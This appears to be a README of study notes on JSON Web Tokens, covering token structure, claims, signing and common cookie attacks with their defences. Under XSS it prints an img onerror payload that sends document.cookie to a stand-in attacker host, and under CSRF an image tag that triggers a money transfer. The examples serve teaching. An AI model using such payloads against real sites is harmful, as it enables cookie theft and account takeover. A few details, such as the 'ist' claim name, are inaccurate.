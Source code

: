 # JWT - JSON Web Token
**JWT:** is a open standard for passing claims
 
### Can be passed:
* as part of URL (Query String)
* form body parameter,
* cookie
* HTTP Header (x-access token)

### JWT is great for single sign-on context
If you have multiple websites, you can use the same token 
across these websites. These websites can share the same token.
The authentication can be done on one website, and the same token is shared among several websites.

## JWT - Structure
A JWT consists of 3 sections **header**, **payload** and **signature** separated with dots.
All sections are base64 encoded! 
**ATTENTION:** the sections are just *encoded*, and **NOT ENCRYPTED**!

####Example:
```

=========           =========
 header             signature
=========           =========
abcabcabc.mnomnomno.xyzxyzxyz
          =========
		   payload
		  =========
```

1. **HEADER**: usually contains 2 parts and is in JSON
	* **typ** - should be "*JWT*"<br>
	* **alg** - hashing algorithm used to encrypt, sign and hash the JWT (HS256, RS256, ES384 etc.) 	

	```javascript
		{
			"typ" : "JWT", 
			"alg" : "HS256"   
		}
	```	
	
2. **PAYLOAD** contains: 
	* the information we need to transmit (e.g.: username, email, firstname, lastname)	-the data used by the application
	* the information related to token itself
	* this data is also referred to "**claims**"
	* A "**claim**" are key-value pairs
		* default keys defined in the JWT-standard: (but you can add your own keys)
		
			```
				iss - issuer			// issuer, which service app is issueing this token
				sub - subject
				aud - audience
				exp - expiration time
				nbf - not before		// not before date
				ist - issued at
				jti - JWT id
			```
			
	#### Example:				
	```javascript
			{
				"iss" : "ABC Service App",
				"name": "Jag",				// custom key
				"admin": false				// custom key
			}
	```

	Again:
	all three (header, payload and signature) need to be base64 encoded.
	Entire information can be seen by a third party. but it cannot be **modified**, without the user noticing it.

3. SIGNATURE**
	* A hash of **header** and **payload** using a **secret**
	
	```javascript
		var s = base64Encode(header)
				+ "."
				+ base64Encode(payload);
		var signature = hashAlgHs256(s, 'secret');		// the header + payload need to match the signature.
		var jwt =  s + "." + base64Encode(signature);   // if they don't match the token is invalid
	```

## JWT - IN REAL WORLD
1. STEP: The client requests token from server (by providing AUTH.Credentials) 
2. STEP: The server checks credentials and creates a TOKEN (JWT) 
3. STEP: The server sends token to client.
4. STEP: The client verifies token, extracts information and stored somewhere at client-side!
5. STEP: From now client uses (persistent) token for subsequents calls to server. No need to send credentials anymore 	
6. STEP: Server verifies token for all subsequent requests
		Server can see when token will expire, at what time it is valid,etc,...
		
## JWT - helpful links
* **Create JWT**<br>
[http://jwtbuilder.jamiekurtz.com/](http://jwtbuilder.jamiekurtz.com/)<br>
[http://jwtbuilder.jamiekurtz.com/](http://jwtbuilder.jamiekurtz.com/)<br>
* **Verify JWT**<br>
[https://jwt.io/](https://jwt.io/)<br>
* **Base64 encode/decode**<br>
[https://www.base64encode.org/](https://www.base64encode.org/)<br>
[https://www.base64decode.org/](https://www.base64decode.org/)<br>
	

## JWT vs. SessionIds

**SessionIds cons:**
* the have no meaning. sessionId=aS37Ha329s
* database heavy: session-ID lookup on *every request*
* cookies need to be secured to prevent cookie (sessionId) hijacking 
* you can do cookie wrong, but when done right they are a good way for securing authentication information on the browser. 

### 3 Attack vectors for cookies:
1. Man-in-the-Middle (MITM)<br>
   Somone "listening on the wire". Easy to do on WIFI!<br>
   **SOLUTION:**<br>
   * Use HTTPS/TLS everywhere a cookie will be transit
   * Set **Secure** flag on cookies. (browser will send cookie only when connection is secure)
   
2. Cross-Site Scripting (XSS)
	This is a very REAL problem<br>
	Happens when attacker code is run inside a browser, on your domain.
	**Can be used to steal your cookies!**
	**EXAMPLE**<br>
	```javascript
	<img src=x onerror="document.body.appendChild(
	 function(){
		var a = document.createElement("img");
		a.src='https://yourarehackednow.com/yourCookies.png/?cookies='document.cookie;return a
	 }())"
	 
	```
	The tag is broken, but this makes the browser to run the onerror code and append and image with cookie-parameter.<br>
	
	**SOLUTION 1:** ESCAPE CONTENT! <br>
	* **Server-side** use well-known, trusted libraries, to ensure dynamic html does not contain executable code.<br>
	  **Do NOT roll your own!**
	* **Client Side**: Escape user input from forms<br>
	
	**SOLUTION 2:** Use HTTPS-Only cookies! <br>
	* set the HttpOnly flag on your authentication cookies.
	* HttpOnly cookies are NOT accessible by the JavaScript environment
	* document.cookie cannot cookie
	* javascript cannot use cookie to determine whether you are logged in or not
	* you need to make a call to the API, that then tells you the status
	
3. Cross-Site Request Forgery (CSRF)
	Exploits the fact that some **HTML tags** do NOT follow the **Same Origin Policy** when making GET requests.
	* <img> is one of those tags
	* **Example:** Attacker puts malicious image into some (his own) web page that the user visits:
	* Lets asume that money can be transfered by following that url:
	
	```html
		<img src="https://trustyapp.com/transferMoney?to=BadGuy&amount=1000" />		
	```
	What happens?<br>
	* Browser sends cookies for trustyapp.com
	* The server trusts cookies AND assumes this was an intended user action.
	* server transfers money!

	**THE SOLUTIONS:**
	* Synchronizer Token (for form-based apps) doesn't help with ajax based rich clients, for those use Double submit cookie
	* Double-Submit Cookie (for modern apps)
	
	## Double submit Cookie:
	
	* Give client 2 Cookies: 
		1. SessionId and 
		2. strong random value
	* Client sends back the random value in a custom **HTTP header**!! Because then the "Same-Origin Policy" kicks in.
	* Browsers doesn't allow custom headers, if we are going to a different domain!
		

**Authentication:** is proving who you are.<br>
**Authorization:** is being granted access to resources.<br>
**Tokens:** are used to persist authentication and get authorization<br>
**JWT** is a token format


JWT look like this:
```
	t21aSKjslsdlwk3lsSKJSlk32d.32ylylasldfkfaMa
	sdflkasdfkmlyiea33ss23asdf2230ylsadsaf
	asdflwjala.alsdfiowoaisdfj_lalalsjfjalSKHE
```

[https://www.youtube.com/watch?v=mecILj3p4VA](https://www.youtube.com/watch?v=mecILj3p4VA)	
